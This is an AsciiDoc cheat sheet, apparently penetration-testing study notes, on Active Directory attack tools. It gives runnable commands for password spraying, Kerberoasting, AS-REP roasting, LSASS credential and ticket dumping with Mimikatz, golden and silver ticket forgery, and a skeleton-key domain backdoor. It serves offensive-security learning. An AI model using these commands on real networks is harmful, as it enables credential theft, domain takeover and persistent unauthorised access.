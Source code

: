 = Active Directory

== BloodHound
Tool that uses graph theory (with Neo4j) to reveal hidden/unintended relationships within an Active Directory or Azure environment.

Useful to find highly complex attack paths.

=== Sharphound
Similar to PowerView but collects users, groups, trusts etc in json files to be used inside BloodHound.

Must be uploaded to the target machine.

[source, shell]
----
powershell -ep bypass
. .\SharpHound.ps1
(bloodhound v2) Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
(bloodhound v3) .\SharpHound.exe -c all -d CONTROLLER.local --zipfilename loot3.zip
----
Now retrieve the zip file and import it in bloodhound.

== Rubeus
Adaptation of kekeo tool, developped by HarmJ0y. Features: overpass the hash, ticket requests and renewal, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP roasting, and Kerberoasting.

https://github.com/GhostPack/Rubeus[Github - Rubeus] must be compiled and sent to the target machine.

=== Harvesting tickets
`Rubeus.exe harvest /interval:30`

=== Brute-forcing / password-spraying
Brute-force: use a single user account and a wordlist of passwords

Password spraying: use a single password and spray against all found user accounts in the domain to find which one may have that password

The following attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

`Rubeus.exe brute /password:Password1 /noticket`

This take a given password and spray it against all found users then give the .kirbi TGT for that user.

We need to be mindful of how we use this attack as it may lock us out of the network depending on the account lockout policies.

=== Kerberoasting
Allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

Requirements:

* service must have a registered SPN
* weak password
* trackable
* privilege of the cracked service account

Use tool like `BloodHound` to find all Kerberoastable accounts. Other tools: `Rubeus`, `Impacket`, `Kekeo`, `Invoke-Kerberoast`.

`Rubeus.exe kerberoast` will dump the Kerberos hash of any kerberoastable users. We can then try to crack this hash with hashcat.

`hashcat -m 13100 -a 0 hash.txt Pass.txt`

=== AS-REP Roasting
Similar to Kerberoasting, AS-REP dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting, these users do not have to be service accounts. The only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

Rubeus is easier to use because it automatically finds AS-REP Roastable users whereas with GetNPUsers you have to enumerate the users beforehand and know which users may be AS-REP Roastable.

`Rubeus.exe asreproast`

To use hashcat (18200), we need to add 23$ after $krb5asrep$

== Impacket
Collection of Python classes for working with network protocols. This doesn't have to be executed on the target machine.

* IP, TCP, UDP, ...
* IPv4, IPv6
* SMB
* plain, NTLM, Kerberos authentication
* LDAP, ...

=== Kerberoasting
`GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.110.253 -request` will dump the hash that we can try to crack with hashcat (13100).

== Kerbrute
Brute force discovery of users, passwords and password spray.

`kerbrute userenum userlist.txt --dc 10.10.188.91 --domain spookysec.local`

== Evil-winRM
https://github.com/Hackplayers/evil-winrm[tool]

== Mimikatz
https://github.com/gentilkiwi/mimikatz[tool] that allows users to view and save authentication credentials like kerberos tickets. Useful to stel credentials and escalate privileges.

Most commonly used for dumping user credentials inside of an active directory network; dump TGT from LSASS memory.

Can use methods like

* pass the hash: use the hash directly to login
* pass the ticket: pass kerberos ticket to login
* pass the key: pass unique key to impersonate a user
* kerberos golden ticket: specific ticket for hidden account KRBTGT which is the account that encrypts all of the other tickets. Doesn't expire.
* kerberos silver ticket: kerberos grants TGS ticket and a user can use that ticket to log into any services on the network
* pass the cache: same as pass the ticket but for login data on mac/linux

=== Passwords hashes
[source, shell]
----
mimikatz.exe
privilege::debug
lsadump::lsa /patch
----
then `hashcat -m 1000 <hash> rockyou.txt`

=== Pass the ticket
Dump TGT from LSASS memory of the machine. The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided.

When we dump the tickets with mimikatz, it will give us a .kirbi ticket which can be used to gain domain admin if a domain admin ticket is in the LSASS memory. This ticket can then be used in Pass the ticket attack.

Mimikatz must be on the target machine.

[source, shell]
----
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
kerberos::ptt <ticket>
----

=== Golden/Silver ticket
A silver ticket can sometimes be better used in engagements rather than a golden ticket because it is a little more discreet.

Silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.

A specific use scenario for a silver ticket would be that we want to access the domain's SQL server however our current compromised user does not have access to that server. We can find an accessible service account to get a foothold with by kerberoasting that service, we can then dump the service hash and then impersonate their TGT in order to request a service ticket for the SQL service from the KDC allowing us access to the domain's SQL server.

[source, shell]
----
mimikatz.exe
privilege::debug
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /inject /name:Administrator
lsadump::lsa /inject /name:SQLService
----

This dumps the hash as well as security identifier to create a golden ticket. To create a silver ticket, we need to change the /name to dump the hash of either a domain admin account or a service account such as the SQLService account.

Create a golden ticket with the info found in lsadump. 500 is the Administrator ID
[source, shell]
----
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:

Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
----

For a silver ticket, we need to put a service NTLM hash into krbtgt slot, the sid of the service account and the id to 1103.

To use the ticket
[source, shell]
----
misc::cmd
----

Golden ticket has access to everything, silver ticket only has access to the service it is linked with.

=== Kerberos backdoors
Use mimikatz for backdoors because more subtle than golden/silver tickets; it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.

This works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using Kerberos RC4 encryption.

The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

Once a skeleton key is implanted, the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

Target machine:
[source, shell]
----
mimikatz.exe
privilege::debug
misc::skeleton
----

Attacker machine:
[source, shell]
----
net use c:\\DOMAIN-CONTROLLER\admin$ /usr:Administrator mimikatz
dir \\Desktop-1\c$ /user:Machine1 mimikatz
----
Share now accessible without the need for the Administrator password and we can access directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key runs in the memory (no persistence) but can be scripted or persisted using other tools and techniques.

== Kekeo

== Invoke-Kerberoast

== PowerView (PowerSploit)
Collection of Microsoft PowerShell modules for pen testers.

Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after we have already gained a shell in the system.

Powerview needs to be uploaded on the target machine.

Load PowerView
[source, bash]
----
powershell -ep bypass
. .\PowerView.ps1
----

Enumerate domain users
[source, bash]
----
Get-NetUser | select cn
----

Enumerate domain groups
[source, bash]
----
Get-NetGroup -GroupName *admin*
----

Find shares
[source, bash]
----
Invoke-ShareFinder
----

Find operating systems on the network
[source, bash]
----
Get-NetComputer -fulldata | select operatingsystem
----

=== Links

* https://github.com/PowerShellMafia/PowerSploit/tree/dev[Github - PowerView]
* https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993[PowerView - tricks]
* https://www.noobsec.net/powerview-cheatsheet/[PowerView - cheatsheet]